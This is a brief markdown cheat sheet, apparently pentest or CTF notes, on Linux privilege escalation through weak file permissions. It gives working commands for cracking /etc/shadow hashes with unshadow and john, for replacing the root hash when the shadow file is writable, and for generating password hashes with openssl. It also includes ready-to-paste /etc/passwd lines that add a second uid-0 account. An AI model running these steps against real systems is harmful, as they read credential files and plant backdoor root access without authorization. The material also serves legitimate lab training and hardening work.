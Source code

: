 # weak file permissions

- From LinEnum.sh we will come to know if some of the sensitive files are readable/writable.

## check if /etc/shadow is readable

- if this is readable, you can read the hashes
- And try cracking with john or other hash cracker.
- `unshadow passwd shadow > unshadowed.txt`  
- `john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt`


## check if /etc/shadow is writable
- you can create a password `mkpasswd -m sha-512 newpasswordhere`
- replace the hash with the above hash & try logging in as root with the new password


## check if /etc/passwd is writable
- generate new password with `openssl` commands
- `openssl passwd 123456`
- with salt, `openssl passwd -1 -salt salt 123456`
```
root:$1$salty$slXoTphI2yZWpUbBQYyE4/:0:0:root:/root:/bin/bash
newroot:jvxnRnSKo6yD6:0:0:root:/root:/bin/bash
```
- try logging in as root & newroot user with the passwords
